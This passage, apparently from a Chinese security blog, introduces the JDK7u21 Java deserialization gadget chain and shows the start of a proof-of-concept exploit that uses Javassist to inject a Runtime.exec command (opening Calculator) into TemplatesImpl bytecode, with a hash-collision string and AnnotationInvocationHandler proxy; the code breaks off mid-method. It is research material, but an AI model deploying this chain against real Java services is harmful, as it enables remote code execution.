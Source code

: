# 前言

在复现了一些有关JAVA的漏洞后，回过头来，发现对反序列化链的调试分析还是有点偏少，只跟链CC链，CB链，Rome链等基础的链子，于是最近准备把Java原生的JDK7u21还有Spring的链子跟踪分析一下

在分析这条链子之前，需要对Javassist，动态代理，反射，Hash碰撞有一个基本的了解

# 漏洞复现

```
package UnserTest;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class JDK7u21 {
    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[][] bytes = new byte[][]{STU.toBytecode()};

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_class", null);
//        TemplatesImpl templates = GetTemplatesImpl.getTemplatesImpl();

        String zeroHashCodeStr = "f5a5a608";
        HashMap hashMap = new HashMap();
        hashMap.put(zeroHashCodeStr,"foo");

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor1 = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor1.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor1.newInstance(Templates.class,hashMap);
        Templates proxy = (Templates) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), templates.getClass().getInterfaces(), invocationHandler);

        HashSet hashSet = new LinkedHashSet();
        hashSet.add(templates);
```